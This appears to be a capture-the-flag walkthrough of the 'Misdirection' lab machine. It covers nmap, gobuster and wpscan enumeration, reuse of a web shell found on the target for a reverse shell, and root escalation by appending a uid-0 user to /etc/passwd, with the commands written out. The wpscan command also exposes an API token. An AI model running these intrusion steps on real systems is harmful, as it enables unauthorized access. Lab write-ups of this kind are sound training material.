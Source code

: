 # MISDIRECTION: 1

# 1 Information gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.122.1/24 -oN host_discovery.txt`

![964ae28c347ea800c0ca3cb1af9404fc.png](./_resources/f8184439c1bc485198e1fbabbc256194.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.122.128 -oN full_service_enum-sC.txt`
![c0118f47fe3f23543752037d1cd3819a.png](./_resources/4482c4bf993e417685148f57d11af681.png)

`nmap -sV -sU -F 192.168.128.128 -oN udp-sC-sV.txt`

## 1.3 Web 80
### 1.3.1 Gobuster
`gobuster dir -u http://192.168.122.128 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt --wildcard -o info.txt`

`gobuster dir -u http://192.168.122.128 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt --wildcard -o info1.txt`

You will need grep data that not contain 400 status code:

![57f359a1ac8c6bb2a67ff4619507d0be.png](./_resources/cf75231c96414c28b812d0e075b996fa.png)

### 1.3.2 User manual in main page
`http://192.168.122.128/init/static/evote_user_manual.pdf`

It shows us the app version:

![e0e864b44d766ba704d46023ccf3cbee.png](./_resources/898f5658981f44ad835074360dc57734.png)

### 3.3.3 Web2py exploit (but not usable)
![1c2993967314b90787c70b7e71328f70.png](./_resources/db6e6e2312d44a9bb5285d93f093f2e3.png)

## 1.4 Web 8080
### 1.4.1 Dirb
![8d73d362506f8d8a4312bbd596efd2a3.png](./_resources/e1b093ad4cea4cd0b9eef71ba3285f35.png)

Interesting, the target have wordpress, debug and shell directories.

### 1.4.2 Wpscan
`wpscan --url http://192.168.122.128:8080/wordpress/ -e ap,at,tt,cb,dbe,u1-20,m --plugins-detection aggressive --disable-tls-checks --api-token 7MBL9noH6s6pOW5qAM6boXVS5wEMayvrBaaoBbMaIKg -o all-info.txt`

### 1.4.3 Debug dir (web shell)
![b83066b3a593994bb2a59b4bf2fea860.png](./_resources/7b7b9241d3f5418ba9fbc2194d746a33.png)
Here we have a web shell previously uploaded by an attacker. I will use it.


# 2 Exploitation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
For reverse shell we can use the web shell:

![ff339e186917b0d67b44f0eccb33c84a.png](./_resources/30d8685843284d37ad9ed3289aa98dbb.png)


# 3 Post-exploitation
LinEnum returns some information:
![794419220afc11924c878cccbaad64b2.png](./_resources/4f318c4c53854d73ac64ab2049a9b0fa.png)
![bcabaf737f7668b53158a3050497cad8.png](./_resources/182c1ba93b234e8698ff7261c793c224.png)

## 3.1 First user
`sudo -u brexit /bin/bash`

![928841574ea280986c8302033b2610e6.png](./_resources/dbdf0674767b42d2be38840ba5075579.png)

## 3.2 Getting root with openssl
Since we have write access as brexit user, we can use openssl to escalate privilege:
`openssl passwd -1 -salt foo foo@12345`
![2016a7f9e96d0bba799880d83c8b9a24.png](./_resources/80bcb574c6ff4cad840f3f9e52854a92.png)

With `echo`, let's add a new user manually:
`echo 'foo:$1$foo$vIxZ6xcPqixL6sHxOWInM1:0:0:root:/root:/bin/bash' >> /etc/passwd`

obs: Its necessary to use single quotes, or the new user is not added.

![c822d5c8d2b6c604aa7e0bfa3ca82185.png](./_resources/483d8f387d9f4c9c90c9eed9ec538208.png)
